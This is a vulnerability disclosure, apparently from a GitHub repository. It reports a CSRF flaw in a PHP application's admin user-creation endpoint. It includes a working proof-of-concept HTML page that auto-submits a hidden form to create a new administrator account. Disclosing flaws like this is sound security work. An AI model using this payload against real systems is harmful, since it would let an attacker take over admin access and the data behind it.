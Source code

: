 ### 1. **Summary**

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the admin panel of the application, specifically on the user's creation page. An attacker can exploit this vulnerability to create a new administrator account with full privileges by submitting a specially crafted request to the vulnerable endpoint.

---

### 2. **Vulnerability Description**

CSRF vulnerabilities occur when an attacker tricks an authenticated user into submitting an unwanted request on their behalf. In this case, an attacker can create a new user with admin privileges without the user's consent.

#### Details of the vulnerability:

- The vulnerable endpoint is located at `/sms/classes/Users.php?f=save`.
- The user creation form does not properly validate requests, leaving it open to CSRF attacks.
- The attacker can craft a malicious request and trick the victim (admin user) into executing it.

By exploiting this CSRF vulnerability, an attacker can create a new admin account with full privileges, potentially compromising the security of the entire system.

---

### 3. **Proof of Concept (PoC)**

Below is the PoC that demonstrates the CSRF vulnerability. The attacker can host the following HTML page on their server or send it to the targeted admin user. When the admin user interacts with the page (e.g., clicks a button), the attacker’s script will create a new admin account without the user’s knowledge.


```
<html>
  <body>
    <form action="http://192.168.211.130/sms/classes/Users.php?f=save" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="firstname" value="John" />
      <input type="hidden" name="lastname" value="Doe" />
      <input type="hidden" name="username" value="john" />
      <input type="hidden" name="password" value="Password" />
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="img" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **Description of the Attack**:  
    The attacker uses JavaScript to submit a POST request with a malicious payload to the vulnerable user creation endpoint. This request contains a new user’s data, including the `type` parameter set to `1` (indicating an admin account).  
    The attack will only succeed if the admin user is logged in and unaware of the attack.
    
#### **Screenshot of the Newly Created Admin Account**

_The following screenshot demonstrates the result of the CSRF attack, showing the new admin account created by the attacker:-
![1](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/CSRF/CSRF%20PoC.png)


### 4. **Impact**

If successfully exploited, this CSRF vulnerability can allow an attacker to:

- Create a new admin account.
- Gain full access to the system and its data.
- Potentially escalate the attack to compromise the entire infrastructure, depending on the privileges of the created admin account.
